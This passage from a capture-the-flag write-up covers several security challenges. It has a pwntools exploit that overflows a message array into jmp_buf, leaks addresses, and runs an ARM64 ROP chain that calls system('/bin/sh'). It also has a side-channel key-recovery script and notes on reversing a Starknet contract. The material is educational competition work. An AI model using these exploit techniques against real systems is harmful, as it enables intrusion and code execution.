exc_occurred = _setjmp((__jmp_buf_tag *)&jmpbuf);
if (exc_occurred != 0) {
  handle_exc(exc_msg,client_fd[0]);
}
clientloop(client_fd);
comm_pkt.cmd = 0x133b;
comm_write(client_fd[1]);
closefd_msg(0,&server_fd);
closefd_msg("Closing connection\n",client_fd);
closefd_msg(0,client_fd + 1);
```

`clientloop` (0x1e10) presents an interactive menu, allowing the user to select "Encrypt", "Decrypt", "Sign", "Admin area" or "Quit". Here's a sample interaction:

<pre>
password: <b>fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1</b>
Find the number n such that sha256(n + b'DNPKX') starts with 6 zeros
number: <b>07669496</b>
correct
Welcome to your device which action do you want to do?
E. Encrypt
D. Decrypt
S. Sign
A. Go To Admin Area
Q. Quit
Option: <b>A</b>
Welcome to the Admin area, what do you want to do ?
R. Get running firmware
U. Update firmware
Option: <b>R</b>
Enter admin password:
<b>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</b>
Invalid password
Welcome to your device which action do you want to do?
E. Encrypt
D. Decrypt
S. Sign
A. Go To Admin Area
Q. Quit
Option: <b>E</b>
A. Add data
V. View data
E. Encrypt data
B. Back to main menu
Option: <b>A</b>
Data size: <b>1</b>
Data id: <b>0</b>
Data in hex?(y/n)
Option: <b>n</b>
Data: <b>x</b>
crc (hex): <b>8cdc1683</b>
Data successfully added
A. Add data
V. View data
E. Encrypt data
B. Back to main menu
Option: <b>E</b>
Message 0 encrypted: c2c291d84cec22a50d53ef2d8e2fb90c
Welcome to your device which action do you want to do?
E. Encrypt
D. Decrypt
S. Sign
A. Go To Admin Area
Q. Quit
Option: <b>E</b>
A. Add data
V. View data
E. Encrypt data
B. Back to main menu
Option: <b>A</b>
Data size: <b>1</b>
Data id: <b>0</b>
Data in hex?(y/n)
Option: <b>n</b>
Data: <b>x</b>
crc (hex): <b>11111111</b>
Exception raised: Invalid crc
Welcome to your device which action do you want to do?
E. Encrypt
D. Decrypt
S. Sign
A. Go To Admin Area
Q. Quit
Option: <b>E</b>
A. Add data
V. View data
E. Encrypt data
B. Back to main menu
Option: <b>V</b>
Data in hex?(y/n)
Option: <b>y</b>
Message 0: 78
A. Add data
V. View data
E. Encrypt data
B. Back to main menu
Option: <b>B</b>
Welcome to your device which action do you want to do?
E. Encrypt
D. Decrypt
S. Sign
A. Go To Admin Area
Q. Quit
Option: <b>Q</b>
Closing connection
</pre>

Everything after `correct` is from the service itself. The admin area isn't much use without the admin password. The other options, Encrypt, Decrypt and Sign, all run through the same sub-menu function (0x1cb8), which allows the user to add data, view data, or (encrypt/decrypt/sign) depending on which top-level option was chosen.

If an exception occurs in any of the interactions, the front-end sets a pointer to the exception message and calls `longjmp` to go back to `main` before `clientloop`, allowing the interaction to be restarted.

Communication with the back-end uses a custom protocol consisting of fixed-length packets of the following format:

```c
struct comm_pkt {
    uint resp;
    uint cmd;
    struct msg {
        byte mode;
        uint size_mode0;
        uint id;
        byte data[256];
        uint crc;
        uint size_mode1;
    } payload;
};
```

The front-end sends a packet with `cmd` set, and the back-end responds with a packet with `resp` set. `resp = 1` usually means success, while `resp = 0` means failure. `struct msg` is basically a wrapper for an arbitrary crc-checked blob of data up to 256 bytes in length. Notably, there are *two* size fields in `struct msg`, and which one is used depends on the value of the `mode` byte.

The front-end has a fixed-length array of ten `msg` structures at 0x15020, which are filled in with the "Add data" subcommand. The "Add data" subcommand calls the function at 0x1008, which looks like this:

```c
if (can_add != 1) {
  exc_msg = "Cannot add more data\n";
                  // WARNING: Subroutine does not return
  longjmp((__jmp_buf_tag *)&jmpbuf,1);
}
uVar1 = (ulong)num_msgs;
num_msgs = num_msgs + 1;
read_msg(param_1,msgs + uVar1,mode);
if (num_msgs == 10) {
  can_add = 0;
}
write(param_1,"Data successfully added\n",0x18);
```

The first part of [my exploit](files/stage2c/exploit.py) contains code to interact with the service; it looks like this:

```python
from pwn import *

context.update(arch="aarch64")
if args.DEBUG:
    context.update(log_level="debug")

if args.LOCAL:
    s = remote("focal", 1336); local = True
else:
    s = remote("device.quatre-qu.art", 8080); local = False

if not local:
    log.info("Logging in...")
    s.recvuntil(b"password:")
    s.sendline(b"fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1")
    s.recvuntil(b"b'")
    suffix = s.recvuntil(b"'", drop=True)
    log.info("Solving challenge (suffix=%s)...", suffix)
    prefix = subprocess.check_output([sys.executable, "chalsolve.py", suffix.decode()]).strip()
    s.sendline(prefix)
    log.info("Ready!")

menucount = 0
def menu(opt):
    global menucount
    menucount += 1
    s.send(opt.encode() + b"\n")

def menusync():
    global menucount
    while menucount:
        s.recvuntil(b"Option:")
        menucount -= 1

def sendint(n):
    s.sendline(str(n).encode())

def crc(msg):
    import zlib
    return "{:08x}".format(zlib.crc32(msg) & 0xffffffff)

def bad_msg(content):
    menu("E")
    menu("A")
    sendint(len(content))
    sendint(1)
    menu("n")
    s.sendline(content)
    s.sendline(b"00000000")
```

### Exploiting the Front-End

The main bug in the front-end is that the "add data" command sets the `can_add` global flag *after* calling `read_msg`. `read_msg` asks the user to input a message, and there are several ways to make it throw an exception: inputting a bad size (outside of 1-256), a bad packet ID (outside of 0-9), a bad answer to "Data in hex?" (outside of `y`/`n`) or inputting a bad CRC.

Thus, we can overflow the `msgs` array as follows: add 9 messages, then add a 10th message with an incorrect CRC or size. This will throw an exception from `read_msg`, preventing the `can_add` flag from being set to 0; subsequent messages will be written out of bounds.

The memory layout of the BSS looks like this:

```
0x15020  msg  msgs[10]
0x15ae8  uint num_msgs
0x15aec  byte unused[0x134]
0x15c20  char *exc_msg
0x15c28  uint exc_occurred
0x15c30  jmp_buf jmpbuf
```

So, by overflowing the `msgs` array, we can manipulate `jmpbuf`, thereby changing where `longjmp` goes when an exception occurs.

On this version of `libc`, `jmpbuf` contains two pointers of interest: the saved LR (x30) register, which tells `longjmp` where to return to, and the saved SP (stack pointer). Both are guarded by XORing against a randomly-chosen value (`__pointer_chk_guard`). We can create an uninitialized message by specifying a size of 256, then providing an invalid response to the "Data in hex?" question and triggering an exception. Then, we can "View" the message to leak memory contents. Using this, we can leak the `exc_msg` pointer to obtain the binary's base address (PIE is enabled), and the contents of `jmpbuf` to leak an obfuscated program address, a libc address which happens to be captured in `jmpbuf`, and a stack address:

```python
# fill msgs
for i in range(10):
    bad_msg(b"a")

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on hex choice
menu("E")
menu("A")
sendint(256)
sendint(9)
menu("?")

# leak jmpbuf
menu("E")
menu("V")
menu("y")
menusync()
s.recvuntil(b"Message 9: ")
leak = bytes.fromhex(s.recvline().decode())

exe_base = u64(leak[0x18:0x20]) - 0x4060
log.info("exe base: %x", exe_base)
ptr_guard = u64(leak[0x80:0x88]) ^ (exe_base + 0x1f8c)
log.info("ptr guard: %x", ptr_guard)
stack_addr = u64(leak[0x90:0x98]) ^ ptr_guard
log.info("stack addr: %x", stack_addr)
libc_base = u64(leak[0x38:0x40]) - 0x151000
log.info("libc base: %x", libc_base)

# clear messages via password check
menu("B")
menu("A")
menu("R")
s.sendline(b"not-the-passwordnot-the-password")
menusync()
```

This gives us everything we need to fake our own `jmpbuf`. We can point the stack into one of the `msg` structures in order to get ROP, and freely use gadgets from libc or the binary. The first thing we do is to bypass the password check in the admin area to get the running firmware:

```python
new_jmpbuf = bytearray(leak)
new_jmpbuf[0x80:0x88] = p64(ptr_guard ^ (exe_base + 0x2da8)) # in retr_firmware
new_jmpbuf[0x90:0x98] = p64(ptr_guard ^ (exe_base + 0x159e0))
new_stack = flat([
    0, 0, 0, exe_base + 0x159e0 + 0x30, 0, 0, # handle_exc
    p32(5) + p32(4),
])
new_stack = new_stack.ljust(256)

# fill msgs
for i in range(9):
    bad_msg(b"a")

bad_msg(new_stack)

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on crc to longjmp
bad_msg(new_jmpbuf)

s.recvuntil(b"Retrieving firmware ...\n")
s.interactive()
```

Here, we're jumping to 0x2da8, which is in the function that retrieves the firmware after the password check (at 0x2d9c). The specific address jumps to a point after the function has built a stack frame and stored the argument (x0 - pointer to `client_fd`) on the stack. So, our fake `jmpbuf` will contain a pointer to a fake stack frame that contains a pointer to a faked `client_fd` structure, allowing this function to work correctly.

When we run this first exploit ([`exploit.py`](files/stage2c/exploit.py)), it successfully reads the firmware and hexdumps it to us, resulting in the file [`firmware.bin`](files/stage2c/firmware.bin).

We can also use ROP to call `system("/bin/sh")` to obtain an interactive shell ([`exploit2.py`](files/stage2c/exploit2.py)):

```python
client_fd = 5
new_stackaddr = exe_base + 0x15590
new_jmpbuf = bytearray(leak)
new_jmpbuf[0x80:0x88] = p64(ptr_guard ^ (exe_base + 0x249c)) # in readall
new_jmpbuf[0x90:0x98] = p64(ptr_guard ^ new_stackaddr)
rop = flat([
    0, exe_base + 0x23b4, # => write, for sanity check
        new_stackaddr + 0x30, p32(0xaaaaaaaa), p32(client_fd), 0, 0,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        exe_base + 0x1502c, p32(16), p32(client_fd),
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 0,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 1,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0xbc8e0, # dup2
        0, 0, 5, 2,
    0, libc_base + 0x000dda08, # ldp x0, x1, [sp, #0x20]; ldp x29, x30, [sp], #0x30; ret; 
        0, 0,
    0, libc_base + 0x47734, # system
        0, 0, exe_base + 0x159e0, 0,
])
rop1 = bytearray(rop[:0x30])
rop2 = rop[0x30:]
rop1[0x18:0x1c] = p32(len(rop2))
log.info("sending %d-byte rop", len(rop2))

# fill msgs
bad_msg(b"Hello from ROP!\n")
for i in range(4):
    bad_msg(b"a")
bad_msg(rop1)
for i in range(3):
    bad_msg(b"a")
bad_msg(b"/bin/sh\0")

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on crc to longjmp
bad_msg(new_jmpbuf)

s.send(rop2)
s.recvuntil(b"Hello from ROP!\n")

s.interactive()
```

We find that there are two users, `backendUser` and `frontendUser`, and that we can read `/home/backendUser/update-unit` (which is basically identical to our dumped `firmware.bin`), but not `/home/backendUser/box-B`, which is the binary that is actually running according to `ps -ef`. There's nothing else particularly interesting to see.

### Reversing the Backend

The backend binary, according to `ps -ef`, is `box-B`, but we do cannot access that binary. Instead, we have [`firmware.bin`](files/stage2c/firmware.bin). Again, it's an ARM64 binary, so I opened it in Ghidra. However, the binary is corrupted: every section aside from `.text` (and `.shstrtab`) is missing! `.rodata`, `.dynamic`, `.dynsym`, `.dynstr` and so on are all gone, and the data is not even in the binary. The program headers are similarly corrupt: only the program header for the text section is intact, while the other program headers all have an offset and size of zero. Ghidra still decompiles the program fine, but references to libc functions are all unresolved, read-only data like strings are missing, and relocations are all unresolved. This makes reversing a lot more difficult.

Luckily, some of the functionality of the front-end was included in the backend, but not actually referenced in the binary: for example, the function at 0x2a90 in the backend corresponds to the `read_msg` function in the front-end (0x33c4), and we can use this correspondence to resolve many libc functions.

The general structure of the backend is similar to the front-end. `main` looks like this:

```c
uVar1 = create_server(1337);
uVar2 = server_accept_conn(uVar1);
random_nonces(paes_nonces);
memset(exc,0,0x148);
iVar3 = setjmp(&exc->jmpbuf);
exc->exc_occurred = iVar3;
clear();
if (exc->exc_occurred != 0) {
  exc_report(exc->exc_message,uVar2);
}
mainloop(uVar2);
close(uVar2);
close(uVar1);
```

where `exc` is a global variable of the following structure:

```c
struct exc_info {
    char *exc_message;
    int exc_occurred;
    jmp_buf jmpbuf;
} *exc;
```

Again, it creates a server, listens for a connection, and uses `setjmp` for exception handling. However, instead of providing a textual menu, `mainloop` instead reads a single `comm_pkt`, and then conditions on the `cmd` field. Several commands are defined:

- 0x1337: Add a message. Just like the front-end, there is an array of ten `msg` structures in the BSS.
- 0x1338: Encrypt all messages.
- 0x1339: Decrypt all messages.
- 0x133a: Sign all messages. (Not actually implemented: returns the hardcoded message `Some breadcrumbs fell in the secure element signature module and we are currently dusting it` for every message)
- 0x133b: Exit.
- 0x133c: Check the password and return 1 in `resp` if it is correct, or 0 if it is not.
- 0x133d: Retrieve the firmware.
- 0x133e: Check the password and return the AES key if it is correct, or the input string if it is not.

In "add", the number of stored messages is checked directly, unlike the backend which uses a separate `can_add` variable, so the same vulnerability does not apply. Furthermore, the only place that triggers an exception (`longjmp`) is in `mainloop`, which will trigger an exception when the `resp` is 0. This can happen when receiving an invalid command or when an individual command fails (e.g. wrong password).

### The Backend Vulnerability

As I found out after finishing the competition, the **intended** solution was that the 0x133e check was using `snprintf` to "copy" the input string to the response packet in the wrong-password case, *using the user input as the format string*, so you could use `%s` and `%x` etc. to leak stuff off the stack, including the AES key. Unfortunately, I **completely missed** this while reversing `firmware.bin` due to the lack of symbols. I had this tagged as `strncpy` as you can see from my decompilation:

```c
rpkt->resp = 0;
local_30._0_8_ = 0;
local_30._8_8_ = 0;
local_30._16_8_ = 0;
local_30._24_8_ = 0;
local_30[32] = 0;
strncpy?(local_30,0x21,(pcVar2->payload).data);
rpkt->cmd = 0x1337;
(pcVar2->payload).size_mode0 = 0x32;
memcpy(pmVar1,CHAR_ARRAY_00104788,0x32);
pkt_clear();
reply_msg(param_1);
FUN_00100e90(1);
(pcVar2->payload).size_mode0 = 0x20;
memcpy(pmVar1,local_30,0x20);
reply_msg(param_1);
uVar5 = 0;
```

Note that the real `strncpy` has the arguments in a different order (`dst`, `src`, `n`), which should have been a hint, but I did not catch this during my solution attempt.

Instead, I found a different bug. The add function (at 0x1340) checks that the size is valid before adding a message, but only for the size field corresponding to the `mode` of the message. So, it checks `size_mode0` if `mode = 0`, and `size_mode1` if `mode = 1`. However, the encrypt (0x1718) and decrypt (0x1830) functions will directly use `size_mode0` and `size_mode1` respectively without checking the mode of the message. Thus, by sending a message with an out-of-bounds `size_mode0` and `mode = 1`, we can cause an overflow in `encrypt`, and vice-versa for `decrypt`.

Unfortunately, exploiting this bug is far more complicated than exploiting a format-string vulnerability.

### Exploiting AES-CBC to Flip Bits

Encryption and decryption are done using AES-256 in CBC mode, using 10 random nonces (one per `msg`, derived from `/dev/urandom`). C's private key is used as the AES key. Both encryption and decryption follow the same structure: the function loops over each message (up to `msg_count`) and encrypts or decrypts the message body up to `size_mode0` (encrypt) or `size_mode1` (decrypt). Neither encryption nor decryption use any padding. After processing a message, the result is sent back in a packet. After processing all messages, the message array is cleared by setting `msg_count = 0` and zeroing out all ten `msg`s.

## Stage 2.d

The description for stage 2.d reads:

> For the last equipment, Daniel lost his pin code.
> We tried to extract the information by attacking the secure memory with fault injections but without success 😒.
> For information, secure memory takes a mask as an argument and uses the stored value XORed with the mask. The measurements we made during the experiment are stored in data.h5. It is too large for backup but you can retrieve it at this address: https://trois-pains-zero.quatre-qu.art/data_34718ec031bbb6e094075a0c7da32bc5056a57ff082c206e6b70fcc864df09e9.h5.
> Maybe you know someone who could help us find the information?

We're provided with a single HDF5 file with the following schema:

- `leakages`: 25000x600 `double`
- `mask`: 25000x32 `unsigned char`
- `response`: 25000x4 `unsigned char`

We can infer that the dataset consists of 25000 experimental runs, each of which has a 32-byte mask, 600 leakage measurements, and a 4-byte response. Every `response` in the dataset is `NACK`:

```python
>>> all(bytearray(r) == b"NACK" for r in f["response"])
True
```

so we can safely ignore that array. Each mask entry just looks like 32 random bytes:

```python
>>> f["mask"][:3]
array([[ 37, 169, 103, 121,  16,  60, 187, 216, 215,  55,   9, 146, 237,
         65,  37, 165,  28, 184,  71, 144, 157, 114, 143, 120,   8,   6,
        104,  14, 112,  62, 157,  76],
       [190, 189,  64,  16, 222, 224, 139, 233,  51, 116, 113, 193,  90,
        104,  59, 184,  63, 178, 186, 156,  89, 252, 232, 255, 225,  93,
        202,  11,  86, 163, 187,  67],
       [ 57, 142, 247, 219, 252, 155, 132, 170,  83, 254, 123,  54,  40,
        249,   1, 234, 121, 184,   3, 129, 124,  69,  30, 110,  55, 243,
         87, 187, 212, 196, 142,  86]], dtype=uint8)
```

Finally, we have the leakages. Plotting the first 100 leakages with [`plot.py`](files/stage2d/plot.py), we see:

> [](files/stage2d/plot1.png)

This tells us a lot! The signals look like energy usage over time. They are all perfectly aligned, and totally free of noise (gotta love artificial datasets!). In the first part of the signal from about x=50 to x=350 we can see a somewhat random (but highly consistent) signal with one prominent spike, corresponding to the injected "fault". From about x=350 to x=415, we see either zeros or a very consistent pattern of alternating measurements; then from x=420 to x=480 we see this:

> [](files/stage2d/plot2.png)

Many of the runs show zero, but those that don't show a consistent pattern alternating between 0.12 and some value between 0.13 and 0.165. There are exactly 32 peaks in all.

The idea is now clear: the fault injection causes the chip to sometimes perform the intended XOR operation, in which case we see the alternating power draw pattern appear after x=350. The power draw between x=420 and x=480 depends on the result of the XOR calculation.

Here, we can make a guess that the amount of power used will depend on the number of 1 bits set in each byte of the result, where the result is the XOR of the secret key and the mask input. As the "leakage measurements" are completely artificial and free of any noise, this is very easy to do with a [simple script](files/stage2d/solve.py):

```python
import h5py
from matplotlib import pyplot as plt

f = h5py.File('data_34718ec031bbb6e094075a0c7da32bc5056a57ff082c206e6b70fcc864df09e9.h5', 'r')

hamming = [sum(int(c) for c in f"{i:b}") for i in range(256)]

leakages = f["leakages"]
masks = f["mask"]
key = [None] * 32
for i in range(25000):
    mask = masks[i]
    # gotta love synthetic data
    bits = leakages[i][421:485:2]
    if (bits < 0.11).all():
        continue
    bits = [int(round(c)) for c in ((bits - 0.13) / 0.005)]
    for j, b in enumerate(bits):
        if key[j] is not None:
            assert hamming[key[j] ^ mask[j]] == b
        elif b == 0:
            key[j] = masks[i][j]

print(bytearray(key).hex())
```

This script simply identifies bytes where the power draw is minimal (equal to 0.13), indicating that zero bits were set in the result, i.e. that the mask byte was equal to the corresponding secret key byte. There are enough runs in the data that this happens at least once in every position. When run, we get D's private key: `54644250491642f996d1c94a4ac8a8dbec66dd0ba66f0271b4e65d5570026a9b`! We can take this key and decrypt the corresponding stage 2d flag: `SSTIC{15fb587e4dc04bbb7abb68fc6651f593d6eb0e4fd84bbfa800c6a66043bda86a}`.

## Stage 3

After obtaining all four private keys, I had to implement the MuSig signature scheme, which was thankfully quite easy because most of the pieces are in the [stage2a `musig2_player.py` script](chall/devices/deviceA/musig2_player.py). The only missing bits are the aggregation calculations of $R_j$ and $s$, which can be found in the [MuSig2 paper](https://eprint.iacr.org/2020/1261). My implementation of the signature scheme is in [`musig2_sign.py`](files/stage3/musig2_sign.py). Note that it uses a "proper" random nonce, so the result is non-deterministic (though `random.randrange` probably isn't as secure as it could be, so I should use `secrets.randbelow` in the future).

When we visit https://trois-pains-zero.quatre-qu.art/ and click on the "Acheter un JNF" (Buy an NFT) link, we get to https://trois-pains-zero.quatre-qu.art/achat/login and are prompted to sign a message that looks like this: `We hereby authorize an admin session of 5 minutes starting from 2023-04-02 15:10:41.625883+00:00 (nonce: d70e0896b4b54fb58e10679caa05e157).` Punch in the signature generated by `musig2_sign.py` (`R=(0x7906b3413376ae10f944eb1d0bd8b7f98a96af290937ffa7a06a2fb2bcc5122b,0x1957eb31e027295297476042bf4b038a0c4330c7c18c9535995a1ef529ed3e31)`, `s=0x395294ce77e7023a70d4a49d27fe3f68d87a89dbf02d229b71abb6e496bcb0f1`) for that message to log in, and we are sent to a second page, https://trois-pains-zero.quatre-qu.art/achat/redeem. Here, we're asked to enter a coupon in order to buy the NFT.

Validation for the coupon starts in [`server/achat.py`](chall/backup/server/achat.py), which passes the input parameters to a smart contract:

```python
# Handle interaction with Starknet contract
coupon_id = request.form.get("id")
code = request.form.get("code")
a = request.form.get("a")
b = request.form.get("b")

try:
    # Abort if data is None or not well formated
    coupon_id = int(coupon_id, 16)
    code = [int(i, 16) for i in code.split(',')]
    a = int(a, 16)
    b = int(b, 16)
except:
    return go_to_redeem()

if not smart_contract.is_valid(coupon_id, code, a, b):
    return go_to_redeem()
```

The [smart contract wrapper](chall/backup/server/smart_contract.py) just forwards the call to a Starknet contract:

```python
def is_valid(ans: int, code: list[int], a: int, b: int) -> bool:
    contract = get_contract()

    try:
        invocation = contract.functions["validate"].invoke_sync(ans, code, a, b, max_fee=int(1e16))
        invocation.wait_for_acceptance_sync()

        return True
    except Exception as e:
        print(e)
        return False
```

This contract is declared and deployed by [`server/deploy.py`](chall/backup/server/deploy.py):

```python
def declare(contract_path):
    owner = config.get_owner_account()

    declare_result = Contract.declare_sync(
            account=owner,
            compiled_contract=contract_path.read_text(),
            max_fee=int(1e16),
            )
    declare_result.wait_for_acceptance_sync()

    return declare_result

def deploy(declare_result):
    nonce = int.from_bytes(os.urandom(16), "big")
    deploy_result = declare_result.deploy_sync(
            unique=False,
            salt=0x1337,
            constructor_args=[config.OWNER_ADDRESS, nonce],
            max_fee=int(1e16),
            )
    deploy_result.wait_for_acceptance_sync()

    contract = deploy_result.deployed_contract
    with open("/tmp/contract_address", "w") as f:
        f.write(f"{hex(contract.address)}")

    print(f"{hex(contract.address)}")

    return contract

def run():
    wait_for_RPC()
    declare_result = declare(Path("/app/internal/challenge.json"))
    contract = deploy(declare_result)
```

We don't have access to the code of the contract (`challenge.json`), but [`server/config.py`](chall/backup/server/config.py) provides the necessary configuration to communicate with the blockchain. We see that there is a Starknet RPC gateway at https://blockchain.quatre-qu.art, and that the owner address is 0x4ece2bf9ab3bdb76e689eea5662dc5c07964dc5f00f745972f264df991d8b4d (2227792261936986457068241964193682344855759612155192788502855599627020634957 in decimal). We start by dumping all of the blocks in the blockchain, producing [`blocks.log`](files/stage3/blocks.log):

```python
>>> CLIENT.get_block_sync(block_number=0)
>>> CLIENT.get_block_sync(block_number=1)
>>> CLIENT.get_block_sync(block_number=2)
>>> CLIENT.get_block_sync(block_number=3) # errors - not yet present
```

In Starknet, contracts are instances of "classes" which contain various methods. A contract class is created through a declare transaction, while a contract instance is created through a deploy transaction. Contract classes are identified by their class hash, which can be used to refer to the code of the class stored on the blockchain.

In block 0, we see several declare and deploy transactions which are just setting up the blockchain. In block 1, we see a declare transaction from the owner address, which must be from `declare(contract_path)`:

```python
GatewayBlock(block_hash=317866964754535706263923812865832811423410116157953196330630931923377413982, parent_block_hash=0, block_number=1, status=<BlockStatus.ACCEPTED_ON_L2: 'ACCEPTED_ON_L2'>, root=0, transactions=[DeclareTransaction(hash=3440807715028016891804779965211962369733847722932724852814236161050082652231, signature=[88564440593701894607622686113046728521206879255368231646118140764699840103, 1863394593932243685906713432119313992970855211084845089406309452755165604582], max_fee=10000000000000000, version=1, class_hash=850987241191385873857281644945472963972949967069463868452254135667905505665, sender_address=2227792261936986457068241964193682344855759612155192788502855599627020634957, nonce=0)], timestamp=1680287345, gas_price=100000000000)
```

This suggests that `class_hash=850987241191385873857281644945472963972949967069463868452254135667905505665` is our validation contract class. In the very next transaction, we see an invoke transaction:

```python
GatewayBlock(block_hash=1799568260676998479121015811259037913464816982030411987336407540847698027208, parent_block_hash=317866964754535706263923812865832811423410116157953196330630931923377413982, block_number=2, status=<BlockStatus.ACCEPTED_ON_L2: 'ACCEPTED_ON_L2'>, root=0, transactions=[InvokeTransaction(hash=121199570675411142353603730900706315166332311680999986404439172613254399361, signature=[3549921394086265753849997764874797739628619656917898513407059625568914435990, 782026284205841696856660162831378873992041327653219396756491426159406085101], max_fee=10000000000000000, version=1, contract_address=2227792261936986457068241964193682344855759612155192788502855599627020634957, calldata=[1, 1856023862266384134850882267771223226463012388454055972213556707067276624575, 721734516881566113991739060234943946737358742400686720027155767807930563645, 0, 6, 6, 850987241191385873857281644945472963972949967069463868452254135667905505665, 4919, 0, 2, 2227792261936986457068241964193682344855759612155192788502855599627020634957, 121485921437276981477059375547635758552], entry_point_selector=None, nonce=1)], timestamp=1680287348, gas_price=100000000000)
```

This invoke transaction will be from deploying the contract. We can see the salt argument (0x1337, or 4919 in decimal), as well as the `OWNER_ADDRESS` argument (2227792261936986457068241964193682344855759612155192788502855599627020634957) and what is presumably the nonce argument (121485921437276981477059375547635758552).

Finally, we can dump the contract code via `CLIENT.get_class_by_hash_sync("850987241191385873857281644945472963972949967069463868452254135667905505665")`. We can use the open-source [Thoth toolkit](https://github.com/FuzzingLabs/thoth) to disassemble and decompile this code back to something more readable ([`program.txt`](files/stage3/program.txt) and [`program.cairo`](files/stage3/program.cairo) respectively).

The disassembly for `validate` looks like this:

```
// Function 23
@external func __main__.validate{syscall_ptr : felt*, pedersen_ptr : starkware.cairo.common.cairo_builtins.HashBuiltin*, range_check_ptr : felt}(id : felt, code_len : felt, code : felt*, a : felt, b : felt)

offset 286:        NOP                 
offset 288:        ASSERT_EQ           [AP], [FP-10]       
offset 288:        ADD                 AP, 1               
offset 289:        ASSERT_EQ           [AP], [FP-9]        
offset 289:        ADD                 AP, 1               
offset 290:        ASSERT_EQ           [AP], [FP-8]        
offset 290:        ADD                 AP, 1               
offset 291:        CALL                398                 # __main__.assert_only_owner
offset 293:        ASSERT_EQ           [AP], [FP-7]        
offset 293:        ADD                 AP, 1               
offset 294:        CALL                411                 # __main__.assert_only_once
offset 296:        ASSERT_EQ           [AP], [FP-7]        
offset 296:        ADD                 AP, 1               
offset 297:        ASSERT_EQ           [AP], 1             # 0x1               
offset 297:        ADD                 AP, 1               
offset 299:        CALL                116                 # __main__.ids.write
offset 301:        CALL                164                 # __main__.nonce.read
offset 303:        ASSERT_EQ           [FP], [AP-2]        
offset 304:        ASSERT_EQ           [FP+1], [AP-1]      
offset 305:        ASSERT_EQ           [FP+2], [AP-4]      
offset 306:        ASSERT_EQ           [AP], [AP-3]        
offset 306:        ADD                 AP, 1               
offset 307:        ASSERT_EQ           [AP], [FP+1]        
offset 307:        ADD                 AP, 1               
offset 308:        ASSERT_EQ           [AP], [FP-6]        
offset 308:        ADD                 AP, 1               
offset 309:        ASSERT_EQ           [AP], [FP-5]        
offset 309:        ADD                 AP, 1               
offset 310:        CALL                255                 # __main__.first    
offset 312:        ASSERT_EQ           [AP], [FP]          
offset 312:        ADD                 AP, 1               
offset 313:        ASSERT_EQ           [AP], [AP-2]        
offset 313:        ADD                 AP, 1               
offset 314:        ASSERT_EQ           [AP], [FP-4]        
offset 314:        ADD                 AP, 1               
offset 315:        ASSERT_EQ           [AP], [FP-3]        
offset 315:        ADD                 AP, 1               
offset 316:        CALL                274                 # __main__.second   
offset 318:        ASSERT_EQ           [AP], [AP-12]       
offset 318:        ADD                 AP, 1               
offset 319:        ASSERT_EQ           [AP], [FP+1]        
offset 319:        ADD                 AP, 1               
offset 320:        ASSERT_EQ           [AP], [FP-7]        
offset 320:        ADD                 AP, 1               
offset 321:        CALL                0                   # starkware.cairo.common.hash.hash2
offset 323:        ASSERT_EQ           [FP-6], [[AP-8]]    
offset 324:        ASSERT_EQ           [AP], [FP-6] + -3   
offset 324:        ADD                 AP, 1               
offset 326:        ASSERT_EQ           [AP-1], [[AP-9]+1]  
offset 327:        ASSERT_EQ           [AP], [FP+2]        
offset 327:        ADD                 AP, 1               
offset 328:        ASSERT_EQ           [AP], [AP-4]        
offset 328:        ADD                 AP, 1               
offset 329:        ASSERT_EQ           [AP], [AP-11] + 2   
offset 329:        ADD                 AP, 1               
offset 331:        ASSERT_EQ           [AP], [AP-5]        
offset 331:        ADD                 AP, 1               
offset 332:        ASSERT_EQ           [AP], [FP-5]        
offset 332:        ADD                 AP, 1               
offset 333:        CALL                247                 # __main__._validate
offset 335:        RET                 
```

### Reversing the contract

Cairo, the programming language for Starknet contracts, runs on a bit of a "weird" virtual machine. The [official tutorial](https://www.cairo-lang.org/docs/how_cairo_works/cairo_intro.html) provides a nice introduction to the language and machine. In this VM, there is a single data type called `felt` ("field element"), which is an integer modulo some prime. For our contract, that prime is 0x800000000000011000000000000000000000000000000000000000000000001. There are three registers, `AP`, `FP` and `PC`, and an unbounded array of *write-once* memory cells, each capable of holding a single `felt`. The instruction `ASSERT_EQ` functions as both an assertion and as an assignment operator: a Cairo program is only accepted if the runtime can prove that *some* assignment of memory cells passes every `ASSERT_EQ` check, so a statement like `ASSERT_EQ [AP], [FP-7]` has the effect of setting the memory cell at `[AP]` to be equal to `[FP-7]`. The `AP` register is an "allocation pointer" which indexes the memory and only increments; it functions kind of like a stack pointer for a stack that only pushes and never pops. The `FP` register is a frame pointer which points to the current "stack" frame and which is updated on `CALL`. The `PC` register is the program counter, updated on every instruction executed. `CALL` pushes two values: the old `FP` and the return `PC`. For the most part, you can read `ASSERT_EQ [AP], X; ADD AP, 1` as effectively `PUSH X`.

Built-in functions, which provide functionality like hashing and persistent storage, are also handled somewhat unusually. They are handled via a form of memory-mapped I/O, in which a predefined range of memory addresses can be read or written to trigger the functionality. For example, the `HashBuiltin` call takes two inputs and produces one output, for a total of three memory addresses. However, since Cairo memory is write-once, instead of using a single block of e.g. three addresses, there are instead a large number of use-once *instances* - consecutive blocks of memory which can each be used to invoke the function once. This requires maintaining a pointer to the first unused instance, for each built-in function that the program uses: the pointer will be passed to a function that uses it, increments it, and then returns the new value.

I initially started by looking at Thoth's [decompilation](files/stage3/program.cairo), but the code was confusing and hard to understand, and the decompiled code did not make sense in parts. Instead, I dove right in with the disassembly, after lightly [cleaning it up](files/stage3/program.annotated.txt) and annotating the various `PUSH`s with what is being pushed. The code winds up looking like this:

```
// Function 21
